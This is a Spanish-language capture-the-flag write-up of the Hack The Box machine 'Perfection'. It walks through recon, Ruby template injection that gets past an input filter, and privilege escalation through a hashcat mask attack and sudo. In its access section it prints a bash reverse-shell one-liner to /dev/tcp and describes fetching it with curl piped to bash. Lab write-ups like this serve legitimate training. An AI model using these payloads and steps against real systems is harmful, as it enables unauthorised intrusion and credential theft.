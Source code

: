 ```yaml
---
title: HTB Perfection Writeup
date: 2024-07-06 08:00:00 -05:00
author: retxus
categories: [HTB, Linux]
tags: [Linux, SSTI, BurpSuite, Cracking]
comments: false
image:
    path: /assets/img/HTB-Perfection/Perfection.png
---
```


Muy buenas con todos, el día de hoy voy a resolver la máquina `Perfection` de HTB, espero que el procedimiento sea de su agrado y fácil de comprender.

## Reconocimiento

Primero vemos si tenemos conexión con la máquina y de paso gracias al `ttl` identificamos ante el tipo de máquina que estamos, en `linux` este suele ser de 64 y en `windows` de 128.

```bash
ping -c 1 10.10.11.25ping -c 1 10.10.11.253
PING 10.10.11.253 (10.10.11.253) 56(84) bytes of data.
64 bytes from 10.10.11.253: icmp_seq=1 ttl=63 time=162 ms

--- 10.10.11.253 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 161.515/161.515/161.515/0.000 ms
```

Vemos que el `ttl` de la máquina es de 63, el cual está próximo a 64 por ende nos encontramos ante una máquina `Linux`.

Ahora, con la herramienta `nmap` lanzamos un escaneo en donde vamos a enumerar los puertos que se encuentran abiertos en la máquina.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.253 -oG ports
```

Aquí generamos un archivo en formato grepeable y hacemos uso de la función <a href="https://gist.github.com/anibalardid/5e05b6472feb3d31116729dc24e6d3e2">extarctPorts</a> de <a href="https://s4vitar.github.io/">s4vitar</a>.

```bash
extractPorts ports
```

Ahora con el número de los puertos copiados en el portapapeles, lanzamos otro escaneo para enumerar el servicio que corren por los puertos.

```bash
nmap -sCV -p22,80 10.10.11.253 -oN target
```

Aquí generamos un archivo en el formato normal de `nmap` en donde se nos muestra más información de los servicios que corren por esos puertos.

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

El escaneo, no nos otorga mucha información, pero vamos a enumerar la web. Primero vemos qué tecnologías se usan o algún `CMS`.

```bash
whatweb 10.10.11.253

http://10.10.11.253 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx, WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)], IP[10.10.11.253], PoweredBy[WEBrick], Ruby[3.0.2], Script, Title[Weighted Grade Calculator], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]
```

Bueno, podemos ver algo llamado `WEBrick` y vemos que se usa `Ruby` y nos dicen su versión. Vamos al navegador a ver qué tenemos. Podemos ver que nos dicen algo de una calculadora de calificaciones. En la parte de arriba, al lado de `about us` si le damos clic, nos lleva a una calculadora. Vamos a ver qué podemos hacer aquí.

![](/assets/img/HTB-Perfection/1_Perfection.png)

Podemos ver que si llenamos los campos en la tabla, estos se muestran en la parte de abajo. En vista de esto, podemos pensar en un ataque del tipo `SSTI`

## SSTI a RCE

Bueno, para continuar con las pruebas hacemos uso de `BurpSuite`, así que interceptamos la petición y la mandamos al `Repeater`.

![](/assets/img/HTB-Perfection/2_Perfection.png)

Probamos a poner comillas y en la respuesta vemos que nos detectan como un input malicioso, si recordamos con el comando `whatweb` nos reportó que el lenguaje de programación es `Ruby`, <a href="https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/#ruby">aquí</a>, nos indican como podemos realizar un `SSTI` en ese lenguaje, como nos bloquea las entradas maliciosas, probamos también a poner un espacio en blanco en formato `url_encode` y el payload a inyectar también debe estar en ese mismo formato, para hacer eso en `BurpSuite`, seleccionas lo que queremos en-codear y le damos a `Ctrl+u`.

![](/assets/img/HTB-Perfection/3_Perfection.png)

Como podemos ver, nos devuelve el resultado de la multiplicación, así que asumimos que funciona. En la misma web nos dicen cómo podemos lograr una ejecución de comandos, vamos a intentar leer el `/etc/passwd`.

![](/assets/img/HTB-Perfection/4_Perfection.png)

Vemos que se pudo, así que vamos a intentar ganar acceso.

## Ganando acceso

Hay varias formas de hacerlo, pero en esta ocasión lo hice de la siguiente manera. Primero, hice un archivo con el siguiente contenido.

```bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Luego me pongo en escucha con `netcat`, levanto un servidor con `python` y en la máquina con curl solicito el archivo pipiándolo con `bash`.

![](/assets/img/HTB-Perfection/5_Perfection.png)

Una vez dentro hacemos el tratamiento de la `tty`.

```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TEMR=xterm
```
Y podemos ver la primera `flag`.

## Escalada de privilegios

Vemos que dentro de nuestro directorio personal de usuario, hay una carpeta en donde podemos ver una base de datos. Si revisamos su contenidos vemos una tabla con nombres de usuarios y lo que parece ser su contraseña encriptada.

![](/assets/img/HTB-Perfection/6_Perfection.png)

Tratamos de romper el `hash`, pero no se puede. Vemos que en la ruta `/var/mail` tenemos un correo que parece dirigido a `susan` y nos dicen cuál es el formato que tienen las contraseñas (primer nombre_primer nombre al revés_número aleatorio entre 1 y 1,000,000,000). En vista de que el correo está dirigido a `susan`, tratamos de averiguar su credencial. Podemos hacerlo con `hashcat`.

```bash
hashcat -m 1400 hash -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d


abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

Vemos que nos da la contraseña, ahora intentamos cambiar a ese usuario. Lo logramos y, si hacemos un, `id` vemos que `susan` está en el grupo `sudo`, así que proporcionando la credencial podemos ejecutar cualquier comando.

![](/assets/img/HTB-Perfection/7_Perfection.png)

Bueno, ahora ya somos root y logramos ver la última `flag`

